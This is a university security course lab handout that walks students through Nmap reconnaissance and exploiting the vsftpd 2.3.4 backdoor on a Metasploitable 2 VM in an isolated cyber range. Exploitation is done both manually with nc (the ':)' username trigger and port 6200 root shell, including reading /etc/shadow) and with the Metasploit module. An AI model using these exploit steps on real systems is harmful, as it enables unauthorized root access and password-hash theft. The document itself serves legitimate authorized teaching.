

# Lab 0: Team Setup, Cyber Range Onboarding, and Your First Exploit
**Module**: 0 — Orientation
**Arc phase**: Setup + guided walkthrough (prerequisite for Lab 1; no Build/Break/Secure arc of its own)
**Estimated time**: ~2 hours in class (reflection becomes homework if needed)
**Skills**: team formation, cyber range navigation, Nmap enumeration, FTP protocol basics, manual exploitation with `nc`, Metasploit fundamentals
**Target**: Metasploitable 2 VM running `vsftpd 2.3.4`

---

## Learning Objectives

By the end of this lab, students will be able to:

1. Form a working team and write a one-page team contract for the semester
2. Log into the Virginia Cyber Range, accept the course enrollment, and launch the Lab 0 exercise environment
3. Use Nmap to enumerate live hosts, open ports, and service versions on a target subnet
4. Explain the vsftpd 2.3.4 backdoor at the protocol level — what bytes go on the wire and what the malicious code path does in response
5. Trigger the backdoor two ways — manually with `nc`, and with a Metasploit module — and articulate why doing it manually first makes the framework make sense
6. State clearly why the techniques in this lab are illegal outside an authorized environment

---

## Background

> The goal of **DS 6042** is to teach the tools, techniques, and mental models you need to **build and deploy secure data pipelines and AI systems**. The course starts on the attacker's side, though: before you can reason about defending a system, you should know what it feels like to break one — which tools attackers reach for, which assumptions they exploit, and what the mental model behind a real intrusion looks like. Lab 0 is your first hour in that seat.

This is the orientation lab. You will not write any ML code today. Instead, you will form your team, get into the Virginia Cyber Range (the cloud-hosted lab environment we use all semester), and walk through a classic exploit end-to-end. By the time you leave class you will have a root shell on a remote machine.

We use the **vsftpd 2.3.4 backdoor** as the first exploit because the history is real, the trigger is one byte sequence, the protocol fits on one page, and Metasploit ships a one-line module for it. In **July 2011** the official vsftpd download server was compromised: the maintainer's release tarball was briefly replaced with a backdoored copy. Anyone who logged in with a username ending in `:)` (a literal smiley face) tripped a hidden code path that opened a root shell listening on TCP port 6200. The poisoned tarball was caught within days, but the backdoored binary lives on in [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/), Rapid7's deliberately vulnerable Linux VM that the security community uses for teaching.

You will not see this exact bug in a modern production network. You **will** see attacks that rhyme with it: supply-chain compromises that ship malicious code under a trusted name, hidden authentication-bypass triggers, and services that quietly bind a second listener on a non-standard port. Everything from the [XZ-Utils backdoor (2024)](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) to the SolarWinds Orion compromise (2020) rhymes with this story.

---

## Authorized use — read this before continuing

Everything you are about to do is illegal outside an authorized environment. The Virginia Cyber Range is authorized — it is a private, isolated cloud network provisioned specifically for educational use, with no path to the public internet. **You may not** run these tools against your laptop's wifi, your dorm network, your employer's network, AWS instances you happen to own, friends' machines, or anything else that is not assigned to this course. In the wrong context, port scanning alone can be a felony under the Computer Fraud and Abuse Act (18 U.S.C. § 1030). Stay in the sandbox. If you are unsure whether something is in-scope, ask.

---

## Part 1: Form Your Team (~15 min)

Teams of **2 or 3 students**. Labs 1 through 20 are built around team collaboration — you will pair-program, hand work off mid-lab, and present together at module reviews.

### 1.1 Form your team

Form your team. Submit your team name and roster to the **Team Signup** assignment on Gradescope. One student per team submits.

**Recommended size**: 3. Two-person teams work but lose a lot of redundancy when someone is out sick.

### 1.2 Write a one-page team contract (~10 min)

Spend ten minutes filling out a one-page team contract. It does not need to be elaborate — it needs to be explicit. Cover:

- **Names + the contact channel you actually check** (email, Slack, Discord, SMS — whatever you reliably read within a few hours)
- **Meeting cadence**: when do you sync outside of class? At minimum, one 30-min sync per lab.
- **Decision rule**: how do you break ties? Majority vote, rotating tiebreaker, defer to whoever has the most relevant background?
- **Workload norm**: equal split per lab, or a rotating "lead" who owns the writeup?
- **Escalation path**: if a teammate disappears or under-contributes, what's the first step? (Usually: talk to them → talk to the TA → talk to the instructor.)

### 1.3 Pick a team handle

Choose a short team handle (one word, lowercase, no spaces — e.g. `mockingbird`, `redoubt`, `cardinal`). You will use it as a directory prefix and a hostname suffix throughout the semester.

**Part 1 Deliverable**:
- [ ] Team roster submitted on Gradescope
- [ ] One-page team contract submitted

---

## Part 2: Connect to the Virginia Cyber Range (~20 min)

The Virginia Cyber Range (VCR) is a cloud-hosted cyber range. We will use it for every lab that involves attacking or defending a live system. Each team gets a personal isolated network containing a Kali Linux VM (the attacker) and a Metasploitable 2 VM (the target).

### 2.1 Accept the enrollment invite

You should have received an email titled **"DS 6042 — Virginia Cyber Range enrollment"** with a personal invite link. If you have not, raise your hand now — do **not** wait until Part 3.

Click the link, sign in with your UVA netbadge, and accept the course enrollment.

### 2.2 Launch the exercise environment

Click **Launch Exercise**. The cyber range will spin up two VMs for your team:

1. **Kali Linux (attacker)** — your workstation. Comes preloaded with `nmap`, `nc`, `msfconsole`, and the rest of the standard pentesting toolkit.
2. **Metasploitable 2 (target)** — Rapid7's deliberately vulnerable Linux VM. This is what you will exploit.

Provisioning takes ~60 seconds. When it finishes the page shows two **Connect** buttons, one per VM. Click the one for **Kali**.

The Kali VM opens in your browser via [Apache Guacamole](https://guacamole.apache.org/) — no SSH client required, just your browser. You get a full Linux desktop. The default login is `kali` / `kali`. (This is a public default for the Kali image and is *only* acceptable inside an isolated cyber range — never assume defaults are safe in production.)

### 2.3 Find the target's IP

Open a terminal on Kali — fastest path is the `>_` icon in the top panel; the **Applications** menu (top-left) also lists *Terminal Emulator* under *System Tools*:



*Image: [Wikimedia Commons](https://commons.wikimedia.org/wiki/File:Kali_Linux.png) (GPL). The cyber range ships a newer XFCE-based Kali whose menu lives behind a small dragon icon in the same top-left position — the click target is what matters, not the styling.*

Then run the four commands below, in order.

#### 2.3a Find your own IP

`ip a` dumps every network interface. The one that matters is `eth0` — your connection to the cyber range's private subnet.

```text
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:42:0a:00:00:05 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.5/24 brd 10.0.0.255 scope global eth0   ← your IP + subnet
```

Your IP is **10.0.0.5** and the `/24` tells you the subnet is `10.0.0.0/24`. (Your actual address will differ — note yours.)

#### 2.3b Find the target with a ping sweep

```text
$ sudo nmap -sn 10.0.0.0/24
Starting Nmap 7.94 ( https://nmap.org ) at 2026-09-04 14:20 UTC
Nmap scan report for 10.0.0.1
Host is up (0.00012s latency).
Nmap scan report for 10.0.0.5
Host is up.
Nmap scan report for 10.0.0.6       ← the target
Host is up (0.00033s latency).
Nmap done: 256 IP addresses (3 hosts up, 0.762 seconds elapsed)
```

`-sn` = ping scan only, no port scan. Three live hosts: `.1` (gateway), `.5` (you), and `.6` (the target).

#### 2.3c Save the target IP into a shell variable

```text
$ export TARGET=10.0.0.6
$ echo $TARGET
10.0.0.6
```

`export` places the variable in the shell's environment so `nc`, `nmap`, and `msfconsole` inherit it. Every command in the rest of this lab uses `$TARGET`.

#### 2.3d Confirm the target is reachable

```text
$ ping -c 1 $TARGET
PING 10.0.0.6 (10.0.0.6) 56(84) bytes of data.
64 bytes from 10.0.0.6: icmp_seq=1 ttl=64 time=0.412 ms

--- 10.0.0.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
```

**1 received, 0% packet loss** — the target is up. If you don't get a reply, wait 30 seconds and retry (the target may still be booting).

**Part 2 Deliverable**:
- [ ] Both teammates have independently logged into the cyber range
- [ ] Both teammates can ping the target VM from their Kali instance
- [ ] `$TARGET` recorded in your team's shared lab notes

---

## Part 3: Reconnaissance — Identify What's Running (~30 min)

You have a target IP. You do not yet know what's running on it. Real enumeration follows this pattern: **scan ports → identify services → identify versions → look up known vulnerabilities for those versions.** Today we do all four.

### 3.1 Find open ports

```bash
sudo nmap -p- $TARGET
```

- `-p-` means *all 65,535 TCP ports*. The default Nmap scan only checks the top 1,000 — fine for speed, but the real world doesn't always cooperate. Full scans take ~1–2 minutes against Metasploitable.

You will see a long list of open ports — Metasploitable 2 deliberately runs many vulnerable services. For Lab 0 the only port that matters is **21 (ftp)**.

### 3.2 Identify the service version on port 21

```bash
sudo nmap -sV -p 21 $TARGET
```

- `-sV` does **service-version detection**: Nmap connects to each port, reads the banner the service sends back, and matches that banner against its fingerprint database.

You should see exactly this:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

That `2.3.4` is the smoking gun. `vsftpd` ("Very Secure FTP Daemon") is a real, widely-deployed FTP server. The 2.3.4 release has a famous, trivially-triggered backdoor — which is exactly why we picked it for the first lab.

### 3.3 Confirm the banner with your own eyes

You don't have to trust Nmap. Connect to the FTP service directly with netcat (`nc`), the swiss-army-knife TCP client:

```bash
nc $TARGET 21
```

The server immediately greets you with:

```
220 (vsFTPd 2.3.4)
```

`220` is the FTP "service ready" code. The string in parentheses is exactly what `nmap -sV` was reading. Type `QUIT` and press Enter to disconnect cleanly:

```
QUIT
221 Goodbye.
```

**Part 3 Deliverable**:
- [ ] Screenshot of `nmap -sV` output showing `vsftpd 2.3.4`
- [ ] Saved in your team's shared lab notes

---

## Part 4: The Backdoor — Manual Exploitation (~30 min)

The temptation is to run straight to Metasploit. **Resist it.** Doing this exploit by hand once is what makes Metasploit make sense in Part 5 and in every later lab.

### 4.1 The FTP protocol, in one minute

FTP (File Transfer Protocol) is a plaintext, line-oriented protocol from 1971. The client sends ASCII commands one per line; the server replies with a three-digit code plus a human-readable message. The two commands you need are exactly what they sound like:

```
USER alice              ← "I want to log in as alice"
331 Please specify the password.
PASS hunter2            ← password
230 Login successful.
```

The entire attack is two lines: a crafted `USER` and any `PASS`.

### 4.2 The backdoor trigger

In vsftpd 2.3.4, an attacker who included **`:)` at the end of the `USER` argument** triggered a hidden code path that forked `/bin/sh` and bound it to TCP port 6200. The author of the malicious code is unknown — it was injected by whoever compromised the download server. Stripped to its essence, the poisoned source did something like:

```c
if (strstr(user_arg, ":)")) {
    /* fork a /bin/sh and bind it to port 6200 */
}
```

The check happens **before authentication**, so the `PASS` you send doesn't matter — but you still have to send one to keep the protocol state machine happy.

### 4.3 Trigger the backdoor

Open **two terminals** on Kali. (In the existing terminal: **File → Open Tab**, or right-click → **Open Tab**.) You need both open at the same time.

**Terminal A** — send the FTP login:

```bash
nc $TARGET 21
```

You see the banner: `220 (vsFTPd 2.3.4)`. Now type these two lines, pressing Enter after each:

```
USER hacker:)
PASS whatever
```

The server *appears* to hang — it never returns a `230 Login successful` because the backdoor has short-circuited the normal login path. **Leave this terminal open.** Do **not** press Ctrl-C; that closes the FTP connection and tears the backdoor shell down with it.

**Terminal B** — connect to the backdoor shell:

```bash
nc $TARGET 6200
```

The remote shell has no prompt and no welcome message. It looks like nothing happened. Type a command and press Enter:

```bash
id
```

You should see:

```
uid=0(root) gid=0(root)
```

You are **root** on the target VM.

### 4.4 Confirm what "root" buys you

Try a few commands to feel out your access:

```bash
whoami
hostname
uname -a
cat /etc/shadow | head -5
```

`/etc/shadow` is normally readable only by root because it contains password hashes. You can read it. That is the entire promise of the exploit: arbitrary code execution as the highest-privilege user on the machine, before authentication, in two lines.

When you're done, type `exit` in Terminal B to close the backdoor shell. Then Ctrl-C in Terminal A to drop the FTP connection.

**Part 4 Deliverable**:
- [ ] Screenshot of `id` returning `uid=0(root) gid=0(root)` from the backdoor shell
- [ ] One short paragraph in your team's lab notes: in your own words, what did the smiley face do?

---

## Part 5: The Backdoor — With Metasploit (~20 min)

Now do the same exploit the "professional" way. The point of this section is to see that Metasploit is just a wrapper around what you already did by hand — and to learn the workflow you'll use for every exploit going forward in the course.

### 5.1 Launch msfconsole

```bash
msfconsole
```

First launch takes 30–60 seconds (it boots the Postgres-backed module index). You will land at an ASCII-art banner and an `msf6 >` prompt.

### 5.2 Find the module

```
msf6 > search vsftpd
```

You should see one match:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

### 5.3 Select and configure

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

`show options` lists the module's parameters. One is required and unset: `RHOSTS` (the remote host or hosts to attack). Set it to your target:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.0.0.6   ← your $TARGET
```

### 5.4 Run

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

You will see Metasploit print status messages as it walks through the same two steps you did by hand:

```
[*] 10.0.0.6:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.0.6:21 - USER: 331 Please specify the password.
[+] 10.0.0.6:21 - Backdoor service has been spawned, handling...
[+] 10.0.0.6:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.5:43210 -> 10.0.0.6:6200)
```

You land in a Metasploit **command shell** session. Run the same checks as before:

```
id
whoami
hostname
exit
```

### 5.5 What did Metasploit actually do?

It connected to port 21, sent `USER` with a `:)` suffix and `PASS` with a junk value, then opened a TCP connection to port 6200 and attached it to your terminal as a managed session. It is **exactly** the manual exploit you ran in Part 4 — wrapped in a session manager, a payload selector, and a logging system.

This is the pattern for the rest of the semester: read the protocol, do it by hand once to internalize the mechanics, then use the framework module after you understand what it's actually doing.

**Part 5 Deliverable**:
- [ ] Screenshot of the Metasploit session shell with `id` and `hostname` output

---

## Part 6: Reflection (~10 min)

Discuss with your teammates. Write 3–5 sentences answering each question; submit one set of answers per team.

1. The vsftpd 2.3.4 backdoor was discovered within days because a handful of users compared the official tarball's checksum against the maintainer's git tree. What does this say about the trust model of open-source supply chains? Name one **modern** equivalent (post-2020) and describe in one sentence what it had in common with the vsftpd incident.
2. The backdoor is a **pre-authentication** vulnerability — you never logged in. Why is that an unusually severe class of bug compared to one that requires a valid account first?
3. You could write a one-line bash script that automates Parts 4.3 and 4.4. What does Metasploit add **on top of** that script? (Hint: think about post-exploitation modules, payload selection, session handling, and what happens when you have ten targets instead of one.)

---

## Deliverables Summary

- [ ] Team roster + team contract (Part 1)
- [ ] Both teammates connected to the cyber range and pinging target (Part 2)
- [ ] Nmap output identifying `vsftpd 2.3.4` (Part 3)
- [ ] Screenshot of manual `id` output as root (Part 4)
- [ ] Screenshot of Metasploit session as root (Part 5)
- [ ] Reflection answers (Part 6)

Submit one PDF per team to Gradescope, named `lab00-<handle>.pdf`.

---

## Going Further (optional)

- Read [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523), the official CVE for the vsftpd 2.3.4 backdoor. What was the assigned CVSS score and severity tier?
- Open `/usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb` on Kali and read the Ruby module. It's ~40 lines. Find the lines that send `USER`, the trigger string, and the connection to port 6200 — and compare them line-for-line to what you typed in Part 4.
- Run `nmap --script ftp-vsftpd-backdoor -p 21 $TARGET`. Nmap ships a detection script for this exact backdoor. Read the source (`/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse`) — what signal does it use to detect the backdoor *without firing the exploit*?
- Compare to the [XZ-Utils backdoor (CVE-2024-3094)](https://nvd.nist.gov/vuln/detail/CVE-2024-3094). What did the two attackers do differently? What was the same? Write a one-paragraph comparison in your team notes.
